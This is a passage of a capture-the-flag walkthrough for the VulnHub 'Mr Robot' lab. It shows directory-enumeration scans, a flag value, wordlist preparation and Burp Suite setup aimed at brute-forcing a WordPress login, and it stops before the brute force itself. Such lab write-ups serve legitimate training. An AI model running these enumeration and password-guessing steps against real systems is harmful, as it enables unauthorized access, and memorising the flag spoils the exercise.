| [+] CODE: 200 URL: http://192.168.125.132/index.php
| [+] CODE: 200 URL: http://192.168.125.132/license.txt
| [+] CODE: 200 URL: http://192.168.125.132/readme
| [+] CODE: 200 URL: http://192.168.125.132/readme.html
| [+] CODE: 200 URL: http://192.168.125.132/robots.txt
| [+] CODE: 200 URL: http://192.168.125.132/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://192.168.125.132/search/sqlqhit.asp
| [+] CODE: 200 URL: http://192.168.125.132/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://192.168.125.132/search/SQLQHit.asp
| [+] CODE: 200 URL: http://192.168.125.132/sitemap.xml
===================================================================================================
|
| Check robots.txt:
|
| Check sitemap.xml:
===================================================================================================
|
| Crawler Started:
| Plugin name: FCKeditor upload test v.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Upload Form Detect v.1.1 Loaded.
| Plugin name: Code Disclosure v.1.1 Loaded.
| Plugin name: E-mail Detection v.1.1 Loaded.
| Plugin name: External Host Detect v.1.2 Loaded.
| Plugin name: phpinfo() Disclosure v.1 Loaded.
| Plugin name: Web Backdoor Disclosure v.1.1 Loaded.
| [+] Crawling finished, 53 URL's found!
|
| FCKeditor File Upload:
|
| Timthumb:
|
| File Upload Forms:
|
| Source Code Disclosure:
|
| E-mails:
|
| External hosts:
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://wordpress.org
| [+] External Host Found: http://browsehappy.com
|
| PHPinfo() Disclosure:
|
| Web Backdoors:
|
| Ignored Files: 
| http://192.168.125.132/wp-includes/js/comment-reply.min.js?ver=4.3.1
| http://192.168.125.132/wp-includes/js/jquery/jquery-migrate.min.js?ver=1.2.1
| http://192.168.125.132/wp-content/themes/twentyfifteen/js/skip-link-focus-fix.js?ver=20141010
| http://192.168.125.132/wp-content/themes/twentyfifteen/css/ie7.css?ver=20141010
| http://192.168.125.132/wp-content/themes/twentyfifteen/css/ie.css?ver=20141010
| http://192.168.125.132/wp-admin/css/login.min.css?ver=4.3.1
| http://192.168.125.132/wp-includes/js/jquery/jquery.js?ver=1.11.3
| http://192.168.125.132/wp-content/themes/twentyfifteen/js/functions.js?ver=20150330
| http://192.168.125.132/wp-content/themes/twentyfifteen/js/keyboard-image-navigation.js?ver=20141010
| http://192.168.125.132/wp-includes/wlwmanifest.xml
===================================================================================================
| Dynamic tests:
| Plugin name: Learning New Directories v.1.2 Loaded.
| Plugin name: FCKedior tests v.1.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Find Backup Files v.1.2 Loaded.
| Plugin name: Blind SQL-injection tests v.1.3 Loaded.
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: PHP CGI Argument Injection v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.2 Loaded.
| Plugin name: SQL-injection tests v.1.2 Loaded.
| Plugin name: Cross-Site Scripting tests v.1.2 Loaded.
| Plugin name: Web Shell Finder v.1.3 Loaded.
| [+] 1 New directories added
|                                                                                                   
|                                                                                                   
| FCKeditor tests:
|                                                                                                   
|                                                                                                   
| Timthumb < 1.33 vulnerability:
|                                                                                                   
|                                                                                                   
| Backup Files:
|                                                                                                   
|                                                                                                   
| Blind SQL Injection:
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| PHP CGI Argument Injection:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
|                                                                                                   
|                                                                                                   
| SQL Injection:
|                                                                                                   
|                                                                                                   
| Cross-Site Scripting (XSS):
|                                                                                                   
|                                                                                                   
| Web Shell Finder:
===================================================================================================
| Static tests:
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.1 Loaded.
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
===================================================================================================
Scan end date: 8-7-2021 15:2:46



HTML report saved in: report/192.168.125.132.html
```

<p></p>
Above is the log file view which can be accessed through the uniscan GUI.
Some interesting parts are:
<p></p>

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.132/Image/
| [+] CODE: 200 URL: http://192.168.125.132/admin/
| [+] CODE: 200 URL: http://192.168.125.132/feed/
| [+] CODE: 200 URL: http://192.168.125.132/image/
| [+] CODE: 200 URL: http://192.168.125.132/login/
| [+] CODE: 200 URL: http://192.168.125.132/rss/
| [+] CODE: 200 URL: http://192.168.125.132/wp-login/
| [+] CODE: 200 URL: http://192.168.125.132/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.132/admin/index.html
| [+] CODE: 200 URL: http://192.168.125.132/admin/index.php
| [+] CODE: 200 URL: http://192.168.125.132/favicon.ico
| [+] CODE: 200 URL: http://192.168.125.132/index.html
| [+] CODE: 200 URL: http://192.168.125.132/index.html%20
| [+] CODE: 200 URL: http://192.168.125.132/index.php
| [+] CODE: 200 URL: http://192.168.125.132/license.txt
| [+] CODE: 200 URL: http://192.168.125.132/readme
| [+] CODE: 200 URL: http://192.168.125.132/readme.html
| [+] CODE: 200 URL: http://192.168.125.132/robots.txt
| [+] CODE: 200 URL: http://192.168.125.132/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://192.168.125.132/search/sqlqhit.asp
| [+] CODE: 200 URL: http://192.168.125.132/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://192.168.125.132/search/SQLQHit.asp
| [+] CODE: 200 URL: http://192.168.125.132/sitemap.xml
===================================================================================================
| 
| Ignored Files: 
| http://192.168.125.132/wp-includes/js/comment-reply.min.js?ver=4.3.1
| http://192.168.125.132/wp-includes/js/jquery/jquery-migrate.min.js?ver=1.2.1
| http://192.168.125.132/wp-content/themes/twentyfifteen/js/skip-link-focus-fix.js?ver=20141010
| http://192.168.125.132/wp-content/themes/twentyfifteen/css/ie7.css?ver=20141010
| http://192.168.125.132/wp-content/themes/twentyfifteen/css/ie.css?ver=20141010
| http://192.168.125.132/wp-admin/css/login.min.css?ver=4.3.1
| http://192.168.125.132/wp-includes/js/jquery/jquery.js?ver=1.11.3
| http://192.168.125.132/wp-content/themes/twentyfifteen/js/functions.js?ver=20150330
| http://192.168.125.132/wp-content/themes/twentyfifteen/js/keyboard-image-navigation.js?ver=20141010
| http://192.168.125.132/wp-includes/wlwmanifest.xml
===================================================================================================
```

<p></p>
Here we can see a list of directories, files and ignored files. Again, all of this information will help us when it comes to looking at the website.
<p></p>
</details>
<p></p>
<details>
    <summary>gobuster</summary>
<p></p>
Gobuster is another prepackaged program which can be used for many things bellow is the help file.
<p></p>

```
❯ gobuster -h
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  version     shows the current version
  vhost       Uses VHOST enumeration mode

Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -h, --help              help for gobuster
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.
```

<p></p>
For this situation we are going to use the <kbd>dir</kbd> command to enumerate directories and files, the command looks like this:
<p></p>

```
gobuster dir -u http://192.168.125.132 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
```

<p></p>
In this command u can see we use the <kbd>dir</kbd> command followed by the <kbd>-u</kbd> command to point gobuster at the url, we then use the <kbd>-w</kbd> command to point gobuster to our desired wordlist. Here you can see I have used the raft-large-files.txt wordlist from <a href="https://github.com/danielmiessler/SecLists" rel="nofollow">SecLists</a>. (I strongly recommend downloading this git it contains tons of wordlists that can be used for multiple things)
<p></p>
This command outputs this:
<p></p>

```
❯ gobuster dir -u http://192.168.125.132 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.132
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/08 15:31:07 Starting gobuster in directory enumeration mode
===============================================================
/xmlrpc.php           (Status: 405) [Size: 42]
/index.php            (Status: 301) [Size: 0] [--> http://192.168.125.132/]
/wp-login.php         (Status: 200) [Size: 2685]                           
/wp-register.php      (Status: 301) [Size: 0] [--> http://192.168.125.132/wp-login.php?action=register]
/index.html           (Status: 200) [Size: 1188]                                                       
/favicon.ico          (Status: 200) [Size: 0]                                                          
/readme.html          (Status: 200) [Size: 64]                                                         
/.htaccess            (Status: 403) [Size: 218]                                                        
/license.txt          (Status: 200) [Size: 309]                                                        
/robots.txt           (Status: 200) [Size: 41]                                                         
/wp-commentsrss2.php  (Status: 301) [Size: 0] [--> http://192.168.125.132/comments/feed/]              
/wp-config.php        (Status: 200) [Size: 0]                                                          
/sitemap.xml          (Status: 200) [Size: 0]                                                          
/.                    (Status: 200) [Size: 1188]                                                       
/wp-settings.php      (Status: 500) [Size: 0]                                                          
/wp-app.php           (Status: 403) [Size: 0]                                                          
/wp-rss.php           (Status: 301) [Size: 0] [--> http://192.168.125.132/feed/]                       
/wp-rss2.php          (Status: 301) [Size: 0] [--> http://192.168.125.132/feed/]                       
/wp-cron.php          (Status: 200) [Size: 0]                                                          
/wp-rdf.php           (Status: 301) [Size: 0] [--> http://192.168.125.132/feed/rdf/]                   
/wp-atom.php          (Status: 301) [Size: 0] [--> http://192.168.125.132/feed/atom/]                  
/wp-feed.php          (Status: 301) [Size: 0] [--> http://192.168.125.132/feed/]                       
/wp-links-opml.php    (Status: 200) [Size: 227]                                                        
/.html                (Status: 403) [Size: 214]                                                        
/sitemap.xml.gz       (Status: 200) [Size: 0]                                                          
/wp-load.php          (Status: 200) [Size: 0]                                                          
/wp-signup.php        (Status: 302) [Size: 0] [--> http://192.168.125.132/wp-login.php?action=register]
/wp-activate.php      (Status: 302) [Size: 0] [--> http://192.168.125.132/wp-login.php?action=register]
/.htpasswd            (Status: 403) [Size: 218]                                                        
/.htm                 (Status: 403) [Size: 213]                                                        
/.htpasswds           (Status: 403) [Size: 219]                                                        
Progress: 2110 / 37043 (5.70%)                                                                        [ERROR] 2021/07/08 15:31:19 [!] Get "http://192.168.125.132/wp-mail.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/.htgroup             (Status: 403) [Size: 217]                                                        
/.htaccess.bak        (Status: 403) [Size: 222]                                                        
/.htuser              (Status: 403) [Size: 216]                                                        
/.ht                  (Status: 403) [Size: 212]                                                        
/.htc                 (Status: 403) [Size: 213]                                                        
/.htaccess.old        (Status: 403) [Size: 222]                                                        
/.htacess             (Status: 403) [Size: 217]                                                        
Progress: 25362 / 37043 (68.47%)                                                                      [ERROR] 2021/07/08 15:34:13 [!] parse "http://192.168.125.132/directory\t\te.g.": net/url: invalid control character in URL
                                                                                                       
===============================================================
2021/07/08 15:36:00 Finished
===============================================================
```

<p></p>
The above output shows us the files and directories.
</details>
<p></p>
<details>
    <summary>dirb</summary>
<p></p>
dirb is another prepackaged program just like gobuster, the help file looks like this:
<p></p>

```
❯ dirb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

dirb <url_base> [<wordlist_file(s)>] [options]

========================= NOTES =========================
 <url_base> : Base URL to scan. (Use -resume for session resuming)
 <wordlist_file(s)> : List of wordfiles. (wordfile1,wordfile2,wordfile3...)

======================== HOTKEYS ========================
 'n' -> Go to next directory.
 'q' -> Stop scan. (Saving state for resume)
 'r' -> Remaining scan stats.

======================== OPTIONS ========================
 -a <agent_string> : Specify your custom USER_AGENT.
 -b : Use path as is.
 -c <cookie_string> : Set a cookie for the HTTP request.
 -E <certificate> : path to the client certificate.
 -f : Fine tunning of NOT_FOUND (404) detection.
 -H <header_string> : Add a custom header to the HTTP request.
 -i : Use case-insensitive search.
 -l : Print "Location" header when found.
 -N <nf_code>: Ignore responses with this HTTP code.
 -o <output_file> : Save output to disk.
 -p <proxy[:port]> : Use this proxy. (Default port is 1080)
 -P <proxy_username:proxy_password> : Proxy Authentication.
 -r : Don't search recursively.
 -R : Interactive recursion. (Asks for each directory)
 -S : Silent Mode. Don't show tested words. (For dumb terminals)
 -t : Don't force an ending '/' on URLs.
 -u <username:password> : HTTP Authentication.
 -v : Show also NOT_FOUND pages.
 -w : Don't stop on WARNING messages.
 -X <extensions> / -x <exts_file> : Append each word with this extensions.
 -z <millisecs> : Add a milliseconds delay to not cause excessive Flood.

======================== EXAMPLES =======================
 dirb http://url/directory/ (Simple Test)
 dirb http://url/ -X .html (Test files with '.html' extension)
 dirb http://url/ /usr/share/dirb/wordlists/vulns/apache.txt (Test with apache.txt wordlist)
 dirb https://secure_url/ (Simple Test with SSL)
```

<p></p>
The command we will use is:
<p></p>

```
dirb http://192.168.125.132 /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
```

<p></p>
Which outputs:
<p></p>

```
❯ dirb http://192.168.125.132 /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul  8 15:50:43 2021
URL_BASE: http://192.168.125.132/
WORDLIST_FILES: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt

-----------------

GENERATED WORDS: 37025                                                         

---- Scanning URL: http://192.168.125.132/ ----
+ http://192.168.125.132/index.php (CODE:301|SIZE:0)                                                                                                                                         
+ http://192.168.125.132/xmlrpc.php (CODE:405|SIZE:42)                                                                                                                                       
+ http://192.168.125.132/wp-login.php (CODE:200|SIZE:2685)                                                                                                                                   
+ http://192.168.125.132/wp-register.php (CODE:301|SIZE:0)                                                                                                                                   
+ http://192.168.125.132/index.html (CODE:200|SIZE:1104)                                                                                                                                     
+ http://192.168.125.132/favicon.ico (CODE:200|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/readme.html (CODE:200|SIZE:64)                                                                                                                                      
+ http://192.168.125.132/license.txt (CODE:200|SIZE:309)                                                                                                                                     
+ http://192.168.125.132/robots.txt (CODE:200|SIZE:41)                                                                                                                                       
+ http://192.168.125.132/wp-commentsrss2.php (CODE:301|SIZE:0)                                                                                                                               
+ http://192.168.125.132/wp-config.php (CODE:200|SIZE:0)                                                                                                                                     
+ http://192.168.125.132/sitemap.xml (CODE:200|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/wp-settings.php (CODE:500|SIZE:0)                                                                                                                                   
+ http://192.168.125.132/. (CODE:200|SIZE:1188)                                                                                                                                              
+ http://192.168.125.132/wp-app.php (CODE:403|SIZE:0)                                                                                                                                        
+ http://192.168.125.132/wp-rss.php (CODE:301|SIZE:0)                                                                                                                                        
+ http://192.168.125.132/wp-rss2.php (CODE:301|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/wp-mail.php (CODE:500|SIZE:3064)                                                                                                                                    
+ http://192.168.125.132/wp-cron.php (CODE:200|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/wp-rdf.php (CODE:301|SIZE:0)                                                                                                                                        
+ http://192.168.125.132/wp-atom.php (CODE:301|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/wp-feed.php (CODE:301|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/wp-links-opml.php (CODE:200|SIZE:227)                                                                                                                               
+ http://192.168.125.132/sitemap.xml.gz (CODE:200|SIZE:0)                                                                                                                                    
+ http://192.168.125.132/wp-load.php (CODE:200|SIZE:0)                                                                                                                                       
+ http://192.168.125.132/wp-signup.php (CODE:302|SIZE:0)                                                                                                                                     
+ http://192.168.125.132/wp-activate.php (CODE:302|SIZE:0)                                                                                                                                   
```

<p></p>
Above you can see the directory and file results.

</details>
</details>
<p></p>
Now that we have done initial enumeration we can start looking at the website being hosted. Going into firefox and going to the ip address we are presented with the following page.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/e4ed451224096481e6e6cf68d9cbcfbf83041721/Starting_Point/VulnHub/MrRobot/images/website.png"><br>
</div>
<p></p>
This website is basically a interactive command line, you could spend ages looking through each input and the information that returns (you can also try Remote Code Execution (RCE) however I couldn't get RCE to work) however this is a honypot and we should start looking at the files and directories we found from our enumeration.
<p></p>
Lets go down the list, to start with we will go to /admin/
<p></p>
This is a bit of a joke as it redirects you to /admin/index.html and puts you into an infinite redirect loop looking at the page source informaton (right click on the web page then click page source) we can see the back end.

```
<!doctype html>
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
<html class="no-js" lang="">
  <head>
    

    <link rel="stylesheet" href="css/A.main-600a9791.css.pagespeed.cf.D0r67Hwe2q.css">

    <script src="js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js"></script>

    <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>

  </head>
  <body>
    <!--[if lt IE 9]>
      <p class="browserupgrade">You are using an <strong>outdated</strong> browser. Please <a href="http://browsehappy.com/">upgrade your browser</a> to improve your experience.</p>
    

    <!-- Google Plus confirmation -->
    <div id="app"></div>

    
    <script src="js/s_code.js.pagespeed.jm.I78cfHQpbQ.js"></script>
    <script src="js/main-acba06a5.js.pagespeed.jm.YdSb2z1rih.js"></script>
</body>
</html>
```

<p></p>
This turns out to be a dead end, so we will try the next item on our list /wp-login.php.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/f1339d44d8be1ebf4103e9709008b3577ac0577f/Starting_Point/VulnHub/MrRobot/images/wp-login.png"><br>
</div>
<p></p>
We can see that we have found a login page, this is important and getting access to this will be the first stage to accessing the target box, for now we wont do anything more but we will come back later.
<p></p>
Next on our list is /robots.txt
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/42cb81f89c32aa6b5ae62ee8ca27aa5bf9974e42/Starting_Point/VulnHub/MrRobot/images/robots.png"><br>
</div>
<p></p>
This is a pretty big find for us we can see two files being referenced, fsocity.dic and key-1-of-3.txt... We have found our first key file! but how do we access it and what is a robots.txt file anyway?
<br>
A robots.txt file tells search engine crawlers which URLs the crawler can access on your site. This is used mainly to avoid overloading your site with requests.
<br>
Ok so we now know what a robots.txt file is for (this is a go to file whenever enumerating a website!) how do we access the files it is referencing? It's pretty simple, we will just put the file name after the ip address ie. 192.168.125.132/fsocity.dic...
<p></p>
We will start with the key file since it is our first flag we have found!
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/d10b9fd05a6cf4624b29de91f9181271cc954f68/Starting_Point/VulnHub/MrRobot/images/key1.png"><br>
</div>
<p></p>
We can see this redirects us to another page with the key text on it.
<p></p>
key1 = 073403c8a58a1f80d943455fb30724b9
<p></p>
Now lets look at that dictionary file we saw in the robots.txt. Again we will navigate to it by placing it after the ip address.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/0e2a6fa7502bbe783e5953321b4ba25ed2491edc/Starting_Point/VulnHub/MrRobot/images/fsocity.png"><br>
</div>
<p></p>
When we navigate to this we are presented with a download box, we will download the dictionary so we can use it later... (in ctf's being given a dictionary file will normally be used for some kind of brute force attack)
<p></p>
The rest of the directories and files we enumerated aren't really of much use to us but feel free to look at the rest if you want. For now we are going to have a look at this dictionary file and see if we can improve it.
<p></p>
If we run wc (word count) against the .dic file we find out how many lines of text it contains.
<p></p>

```
❯ wc fsocity.dic
 858160  858160 7245381 fsocity.dic
```

<p></p>
This is telling us that there are 858160 lines within the file, using this to brute force something would take a considerable amount of time. Lets see if we can improve the efficiency of this dictionary file. To do this we will ensure that there are no duplicated lines within the file using the command below.
<p></p>

```
cat fsocity.dic | sort | uniq > uniq.dic
```

<p></p>
In this command we read the .dic file then piped (|) it to <kbd>sort</kbd> then piping it to <kbd>uniq</kbd> and outputting that to a new file. We can see what this has achieved by running <kbd>wc</kbd> on our new file.
<p></p>

```
❯ wc uniq.dic
11451 11451 96747 uniq.dic
```

<p></p>
We can see that it has brought the line number down to 11451 by getting rid of all the duplicate lines. This is much more efficient than the 858160 lines we had previously. We are going to make one more file now using a modification of our previous command.
<p></p>

```
cat fsocity.dic | sort | uniq -u > single.dic
```

<p></p>
In this command we have outputted the lines that didnt have a duplicate within the file. We can run <kbd>wc</kbd> on this new file and see what we have produced.
<p></p>

```
❯ wc single.dic
 10  10 156 single.dic
```

<p></p>
As we can see we have created a file with only 10 lines!, this means these 10 lines weren't repeated throughout the etire file. People have asked me why I created this file and didn't just use the uniq.dic file, I think it is easier to run a 10 line bruteforce then move onto the 11K file because I think its more likely that a password or username wouldn't be repeated, overall it will save me time.
<p></p>
Now that we have setup our .dic file for bruteforcing we can start investigating the login page we found earlier.
<p></p>
We will start by looking at what returns we get when we submit text through the login box, we will enter 'test' in both the username and password box and see what we get.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/e1f87870686d3884514f2093ca35c0fe199e561e/Starting_Point/VulnHub/MrRobot/images/userandpass.png"><br>
</div>
<p></p>
We can see that we are given a return of "invalid username" next we will try only the username.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/e1f87870686d3884514f2093ca35c0fe199e561e/Starting_Point/VulnHub/MrRobot/images/useronly.png"><br>
</div>
<p></p>
This time we get a return of "the password field is empty". Finally we will try only the password.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/e1f87870686d3884514f2093ca35c0fe199e561e/Starting_Point/VulnHub/MrRobot/images/passonly.png"><br>
</div>
<p></p>
This time we are told that "the username field is empty".
<p></p>
The important information we can pull from our tests is from our first test. The page returning "invalid username" hints to us that this is a badly configured login page. If the page is telling us that the username is invalid it gives us an in for enumerating usernames because if the username is correct we would assume it would accept it and then tell us that the password is incorrect. A properly configured login page would always return "username or password are incorrect" we will test this theory now using a tool called hydra.
<p></p>
Below is the help file for hydra.
<p></p>

```
❯ sudo hydra
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```

<p></p>
It all looks very complicated but hydra follows a general syntaxt that you can modify whenever you need to use it. IOT for us to use hydra we need to gather a bit more information, and that is capturing the request sent when we try to login. To do this we will use Burp Suit.
<p></p>
Burp requires a bit of setup to work and that is we need to pass our internet traffic through a proxy, I use foxy proxy which I will explain how to set up below.
<p></p>
First we need to google foxy proxy. Navigate to the first link, foxy proxy standard.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/18702bff313bf3952c16b4b81fe5c92084fe2674/Starting_Point/VulnHub/MrRobot/images/googlefoxy.png"><br>
</div>
<p></p>
Next we need to click add to firefox.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/18702bff313bf3952c16b4b81fe5c92084fe2674/Starting_Point/VulnHub/MrRobot/images/addtofire.png"><br>
</div>
<p></p>
We will then be presented with a tool bar popup, click add again.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/18702bff313bf3952c16b4b81fe5c92084fe2674/Starting_Point/VulnHub/MrRobot/images/addtoolbar.png"><br>
</div>
<p></p>
We can see that an icon has appeared on the right hand side of our tool bar, click it followed by options, we will then be presented with this screen.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/18702bff313bf3952c16b4b81fe5c92084fe2674/Starting_Point/VulnHub/MrRobot/images/foxyoptions.png"><br>
</div>
<p></p>
We then need to click add on the left of the screen and then fill out the settings you can see below,
<br>
name = Burp
<br>
proxy IP address = 127.0.0.1
<br>
port = 8080
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/18702bff313bf3952c16b4b81fe5c92084fe2674/Starting_Point/VulnHub/MrRobot/images/foxysettings.png"><br>
</div>
<p></p>
Finally click save and you can see that your proxy has been created, now whenever you want to direct traffic through burp you simply click on the icon in your toolbar and click burp and all your internet traffic will be redirected.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/18702bff313bf3952c16b4b81fe5c92084fe2674/Starting_Point/VulnHub/MrRobot/images/foxyfinished.png"><br>
</div>
<p></p>
Now that we have foxy proxy set up and we can redirect our traffic to burp we can start burp and have a look. Look for it in your applications menu, I am using Parrot so this is where it is located for me, however if you are using kali or some other distro it may be located somewhere else.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burpmenu.png"><br>
</div>
<p></p>
Once we start it I am presented with a JRE popup, igonore this and click ok.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burpJRE.png"><br>
</div>
<p></p>
Next an update pop up appears, I ignore this and click close as occasionally updating things will break dependancies on linux.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burpupdate.png"><br>
</div>
<p></p>
We are then given the project creation window, since we are using burp free we can only create a tempory project so click next.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burptemp.png"><br>
</div>
<p></p>
Next we are asked about configuration settings, we are just going to use burp defaults so click start.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burpdefaults.png"><br>
</div>
<p></p>
We are then taken to the burp dashboard.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burpdashboard.png"><br>
</div>
<p></p>
Finally we need to use the burp proxy so using the tabs at the top navigate to the proxy tab.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/8baac8906c626ac8a6a7fe866c6e171f9a13875e/Starting_Point/VulnHub/MrRobot/images/burpproxy.png"><br>
</div>
<p></p>
Now that we have our proxy in firefox configured and Burp Suite up and running we can send our login request to burp and capture the traffic. Switch back to your web browser, turn the foxy proxy burp profile on (you can see in my toolbar there is a green burp on my foxy proxy), enter test into both the username and password and press login.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/092dfd0dc511d5f8aa87c766ee31755da23a06a7/Starting_Point/VulnHub/MrRobot/images/wpburptest.png"><br>
</div>
<p></p>
